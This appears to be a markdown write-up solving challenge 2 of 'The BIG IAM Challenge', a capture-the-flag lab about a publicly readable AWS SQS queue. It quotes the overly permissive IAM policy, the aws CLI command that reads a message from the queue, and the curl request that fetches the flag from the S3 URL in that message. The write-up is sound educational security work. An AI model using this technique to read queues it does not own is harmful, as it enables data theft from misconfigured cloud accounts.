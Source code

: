 ```yaml
---
tags:
  - IAM
  - Google-Analytics
  - SQS
title: The BIG IAM Challenge - Google Analytics
description: Public queues are risky
reference: https://thebigiamchallenge.com/challenge/2
---
```


# Challenge

We created our own analytics system specifically for this challenge. We think it's so good that we even used it on this page. What could go wrong?

Join our queue and get the secret flag.

# Solution
## 1. View the provided IAM Policy

This policy allow all to send/receive message to/from the queue `wiz-tbic-analytics-sqs-queue-ca7a1b2`.

```json
{ "Version": "2012-10-17", "Statement": [ { "Effect": "Allow", "Principal": "*", "Action": [ "sqs:SendMessage", "sqs:ReceiveMessage" ], "Resource": "arn:aws:sqs:us-east-1:092297851374:wiz-tbic-analytics-sqs-queue-ca7a1b2" } ] }
```

### 2. Try to receive a message from the queue

The Body contains a URL.

```
> aws sqs receive-message --queue-url https://sqs.us-east-1.amazonaws.com/092297851374/wiz-tbic-analytics-sqs-queue-ca7a1b2

{

    "Messages": [

        {

            "MessageId": "e818babc-8f5d-4bcc-9a13-70081da42996",

            "ReceiptHandle": "AQEB3ZHZRtuEs2sF78zjpKcx8uEMf7Nn5b4ML7hW/r8PwuNRZQp0FF8pLFFsEguAv+lyozVI8VFdAfW4YbpnNJsDII0m6P5EDqLhbFM

EAAp8N0Mm1UDnAR+uHx0nAOMlVDf55+YjCCL2gtVso81bnuyJ1FOALyP/v54n0BGrNR8zHQULb1BRrwNDiGhXYDrQi/DCicyZy5szGSL4vzR6uWkW1rC0q0n8bxCZSr3NLNiD

1Hr0jH2olUDzM8MqSeETgvDwFqns/Xa0DF2/FyfADfP7e2RmBcUZDXrEbpfVh70Yca+d2nh4fl8OtYCdyIsBSJT0eXxLQKoImNgS5z/ua6Rf2rOxU5e6MkYjA1dfYnlmnoJtn

DIYEvUrFxi8tg8UhHmqotWTjMtSO9iXA+LYVQoI56hWZjUSivkpaMwATmgr6uk=",

            "MD5OfBody": "4cb94e2bb71dbd5de6372f7eaea5c3fd",

            "Body": "{\"URL\": \"[https://tbic-wiz-analytics-bucket-b44867f.s3.amazonaws.com/pAXCWLa6ql.html](https://tbic-wiz-analytics-bucket-b44867f.s3.amazonaws.com/pAXCWLa6ql.html)\", \"User-Agent\": \"Lynx

/2.5329.3258dev.35046 libwww-FM/2.14 SSL-MM/1.4.3714\", \"IsAdmin\": true}"

        }

    ]

}
```

### 3. Try to access the analytics-bucket URL


```
> curl https://tbic-wiz-analytics-bucket-b44867f.s3.amazonaws.com/pAXCWLa6ql.html
{wiz:you-are-at-the-front-of-the-queue}
```